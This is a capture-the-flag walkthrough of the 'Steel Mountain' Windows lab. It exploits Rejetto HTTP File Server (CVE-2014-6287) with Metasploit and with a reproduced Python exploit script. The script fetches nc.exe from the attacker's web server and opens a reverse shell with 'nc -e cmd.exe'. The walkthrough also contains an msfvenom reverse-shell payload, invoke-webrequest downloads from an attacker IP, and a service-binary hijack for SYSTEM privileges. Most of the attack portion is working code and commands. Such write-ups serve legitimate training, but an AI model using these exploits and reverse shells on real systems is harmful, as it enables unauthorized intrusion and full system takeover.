 # Steel Mountain

## Enumerate

- nmap (doesn't respond to ICMP pings)

~~~
nmap -sC -sV -sS -oN initial.txt <ip>
~~~

port 80 contains webserver with picture of bill from mrrobot

gobuster websurver

~~~
gobuster dir -u <ip> -w /usr/share/wordlists/dirb/common.txt 
~~~

gobuster shows only image and index 

nikto 

~~~
nikto -h <ip>
~~~

Shows Server: Microsoft-IIS/8.5 nothing else.

nmap again all ports

~~~
nmap -sC -sV -sS -p- -oN initial.txt <ip>
~~~

Shows new port 8080/tcp open  http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) & 808.

I was dumb and didn't google the fucking file server thinking nmap would tell me!!

file server is Rejetto HTTP File Server


## Metasploit the fucker!!!

Use windows/http/rejetto_hfs_exec to gain access.

~~~
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    RHOST IP          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     my IP            yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

~~~

Takes a while to upload the payload and get meterpreter shell.


Userflag in C:\Users\bill\Desktop


## Privesc


Upload PowerUp.ps1 to search for privesc.

~~~

upload /root/tools/win_priv/PowerUp.ps1

load powershell
powershell_shell

. .\PowerUp.ps1

Invoke-AllChecks

~~~

Output of interest.

~~~

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True

~~~

The ASCService.exe can be stopped and restarted with a reverse shell!!

~~~
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.237.130 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ven.exe 
~~~

First we need to  stop the service.

Then we need to overwrite the ASCService.exe with own file.

Then we can start the service again. 

~~~
Stop-Service AdvancedSystemCareService9
Copy-Item -Path 'C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\ven.exe' -Destination 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'
Start-Service AdvancedSystemCareService9
~~~

use metasploits multihander module as a listening device but run -j to run in background.

## Without metasploit

Copy netcat binary to directory, then launch a netcat server and a http.server

~~~
cp /usr/share/windows-binaries/nc.exe .

python -m http.server 80

nc -lvnp 1337
~~~

Searchsploit suggests the following python2 script (change ip_addr to tun0 address and local port can be changed)

~~~
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#         It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#         It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
   def script_create():
      urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

   def execute_script():
      urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

   def nc_run():
      urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")


   ip_addr = "" #local IP address
   local_port = "1337" # Local Port number
   vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
   save= "save|" + vbs
   vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
   exe= "exec|"+vbs2
   vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
   exe1= "exec|"+vbs3
   script_create()
   execute_script()
   nc_run()
except:
   print """[.]Something went wrong..!
   Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
   Don't forgot to change the Local IP address and Port number on the script"""
   
            

~~~

Run it once to upload the nc to the windows machine. Run again to get nc to call back to our nc

~~~

python2 .py <ip of target> <port (8080 in this case)>
~~~

Once reverse shell is found upload winpeas, run it and save to file.

~~~
powershell -c invoke-webrequest http://10.8.237.130/winPEASx64.exe -outfile winpeas.exe

powershell -c ". .\winpeas.exe | tee-object -filepath winpeas.txt"
~~~

Output shows the same service can be overwritten. Stop service (using commands from above with powershell -c in front). 

Then upload msf rev shell

~~~
powershell -c invoke-webrequest http://10.8.237.130/ven.exe -outfile ven.exe
~~~

THen copy .exe the same way as before then start service (with another nc -lvnp listening).